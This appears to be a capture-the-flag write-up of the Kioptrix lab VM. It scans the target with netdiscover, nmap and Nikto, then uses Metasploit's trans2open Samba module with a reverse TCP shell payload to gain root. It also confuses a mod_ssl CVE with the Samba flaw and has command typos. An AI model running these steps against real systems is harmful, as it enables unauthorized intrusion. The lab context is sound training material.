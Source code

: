 Kioptrix is a boot to root challenge, the goal is to gain root access using vulnerability assessment and exploitation tools and techniques.

![Kioptrix1](https://user-images.githubusercontent.com/104534892/236891421-44073633-88ad-4558-89e5-fdcae109936a.png)

Approach:
1. Network discovery
2. Enumeration
3. Exploitation
4. Find the flag

# 1. Network Discovery

First we need to get the IP address of the victim, so let's run a scan via netdiscover:

>What is netdiscover? is a scouting tool for wireless networks used to passively discover hosts or actively search for them using Address Resolution Protocol (ARP) requests.

The command to run the scan is: `sudo netdiscover`

![Kioptrix4](https://user-images.githubusercontent.com/104534892/236891485-df50e551-af9d-4d3c-bfaf-a2cf2bea4115.png)

Netdiscover returns us the name of the victim host "PCS Sysemtechnik", its IP address (in this case 10.0.2.4) and MAC address.

# 2. Enumeration

Once the IP address is obtained, we can use Nmap to check the host's services, protocols and open ports.

>What is Nmap? Acronym for Network Mapper is an open source tool for network security detection and control, it uses raw IP packets to determine which hosts are available on the network, which services (name and version), which operating systems (and version) and what kind of firewalls are in use and much more.

We run a scan using the command: `sudo nmap 10.0.2.4 -sV -p- -T4 -O`
- -sV to identify the running services and their version
- -p- scans all ports
- -T4 is for more aggressive and faster scanning
- -0 to identify the operating system

![Kioptrix5](https://user-images.githubusercontent.com/104534892/236891538-36720eab-9ea2-4828-9585-8b350f5c0cbe.png)

The scan shows port 80/tcp running Apache open: checking the website to check for any exploitable third-party web apps this leads us only to a test page that does not provide us with any additional information, not even the source code turns out to be useful.

![Kioptrix6](https://user-images.githubusercontent.com/104534892/236891571-a4e8d6df-fbfe-46c7-813f-7ff3c528572d.png)

From the previous scan carried out with nmap it can be seen that port 139/tcp runs a netBIOS Samba smbd, that is a client-server protocol for accessing files and directories; We look for vulnerabilities in the version in use via Nikto:
`nikto -h http://10.0.2.4`

![Kioptrix7](https://user-images.githubusercontent.com/104534892/236891608-df43baa8-b967-41b1-b765-1cd21f94c167.png)

From the result of the scan we can see that the version in use of Samba (2.2.1a) is vulnerable to a remote buffer overflow that allows us to access the shell remotely and compromise the victim VM:
`mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE- 2002-0082), OSVDB-756.`
found the vulnerability it is necessary to look for an exploit, after some searches I discovered that the Metasploit module to load is /exploit/linux/samba/trans2open (source: https://www.exploit-db.com/exploits/16861).

# 3. Exploitation

We use Metasploit to search for the exploit and gain access

>What is Metasploit? is an open source framework for developing, testing and running exploit code
	
![Kioptrix8](https://user-images.githubusercontent.com/104534892/236891639-369449f1-af7b-4b35-a700-6ffe187bbcf7.png)
- `sudo msfdb init`
- `msfconsole`
start the database as user "msf" and the console, then look for the vulnerability or trans2open: `search trans2open`

![Kioptrix9](https://user-images.githubusercontent.com/104534892/236891707-887aae6f-a647-42f0-807d-cb177a23749d.png)

we select the previously found exploit module `use exploit/linux/samba/tran2open` and display the details of the payload to be set via `options`:

![Kioptrix10](https://user-images.githubusercontent.com/104534892/236891738-acc3c456-eecd-42db-afa3-588eecbbe61a.png)

We then set:
- the remote host (RHOST) `set RHOST10.0.2.4`
- the `set payload linux/x86/shell_reverse_tcp` payload
and run the `exploit` exploit and generate the shell:

![Kioptrix12](https://user-images.githubusercontent.com/104534892/236891766-de3d8c41-ff09-4cb3-b77a-65624ea127a6.png)

Once we have accessed the victim VM, check the privileges:

![Kioptrix13](https://user-images.githubusercontent.com/104534892/236891783-208d9439-2dc3-4b16-a1a7-b0a3bc944d0a.png)

We have gained root access to the machine, now just generate a TTY shell via `/bin/bash -i` to use the bash shell.

# 4. Find the flag

Before looking for the flag let's look at the history of commands used in the shell via `history`:

![Kioptrix14](https://user-images.githubusercontent.com/104534892/236891812-5a528c9b-87df-452c-83a2-5cf906aff2d9.png)

we note that the mail command has been used, so we access the directory as the root user to read the saved mails:

![Kioptrix15](https://user-images.githubusercontent.com/104534892/236891829-19387e6f-80b0-4ac9-9a32-8854a67c53c0.png)

VM completed, we got the flag!
